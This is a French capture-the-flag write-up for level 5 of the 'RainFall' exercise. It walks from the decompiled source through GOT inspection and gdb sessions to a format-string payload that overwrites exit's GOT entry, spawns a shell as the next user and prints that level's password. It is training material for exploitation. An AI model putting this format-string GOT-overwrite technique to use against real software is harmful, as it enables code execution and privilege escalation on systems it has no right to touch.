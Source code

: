 # Level 5

pass : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

## Sources :

```c=
#include <stdio.h>

// 0x080484a4
void	o() {
	system("/bin/sh");
	_exit(1);
}

// 0x080484c2
void	n() {
	// char *fgets(char *s, int size, FILE *stream);
	char	str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	printf(str);
	exit(1);
}

// 0x08048504
void	main() {
	n();
}
```

## Recherche :

> Ici, on voit que la fonction `o()` à l'adresse `0x080484a4` nous permettrait d'exécuter un shell.
> On va donc exploiter `printf()` pour changer le pointeur de fonction de `exit()` pour le faire pointer plutôt vers `o()`

Comme fait précédement, on va chercher l'offset qu'on trouve à `4`:
```
$ ./script.sh ./level5
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

Inspectons la GOT (**Global Offset Table**) :

```
[0]kali@kali:~/rainfall$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin@@GLIBC_2.0
08049824 R_386_JUMP_SLOT   printf@GLIBC_2.0
08049828 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804982c R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049830 R_386_JUMP_SLOT   system@GLIBC_2.0
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804983c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
```

On va donc écrire à l'adresse `0x08049838` où se trouve la routine `exit`.

```gdb
gdb-peda$ r < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x38\x98\x04\x08%4\$n"')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x4
EBX: 0x0
ECX: 0x0
EDX: 0x7ffffffb
ESI: 0xb7fb7000 --> 0x1dfd6c
EDI: 0xb7fb7000 --> 0x1dfd6c
EBP: 0xbffff2f8 --> 0xbffff308 --> 0x0
ESP: 0xbffff0dc --> 0x8048504 (<main>:  push   ebp)
EIP: 0x4
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x4
[------------------------------------stack-------------------------------------]
0000| 0xbffff0dc --> 0x8048504 (<main>: push   ebp)
0004| 0xbffff0e0 --> 0x1
0008| 0xbffff0e4 --> 0x200
0012| 0xbffff0e8 --> 0xb7fb7580 --> 0xfbad2098
0016| 0xbffff0ec --> 0xb7fda53c (<dl_main+8636>:        mov    eax,DWORD PTR [ebp-0x14c])
0020| 0xbffff0f0 --> 0x8049838 --> 0x4
0024| 0xbffff0f4 ("%4$n")
0028| 0xbffff0f8 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000004 in ?? ()
```

On a bien mis dans l'`EIP` l'addresse `0x4`, c'est à dire le nombre de bits de `\x38\x98\x04\x08`
Maintenant on va mettre l'addre de `o()` qui est `0x080484a4` avec `%hn`

Donc on veut excrire `0x84a4` puis `0x0804`
- `0x0804` - `8` = `2044`
- `0x84a4` - `0x0804` = `31904`


`
r < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')`

```gdb
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) b *0x080484a7
Breakpoint 1 at 0x80484a7
(gdb) r < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')
Starting program: /home/kali/rainfall/level5 < <(perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"')
:8
.
.
.
Breakpoint 1, 0x080484a7 in o ()
(gdb)
```
On a donc réussi à atteindre `o()`

Il ne reste plus qu'à lancer la commande et récuperer le pass.

## Exploit :

```shell=
level5@RainFall:~$ (perl -e 'print "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"';cat) | ./level5
whoami
level6
cd ../level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
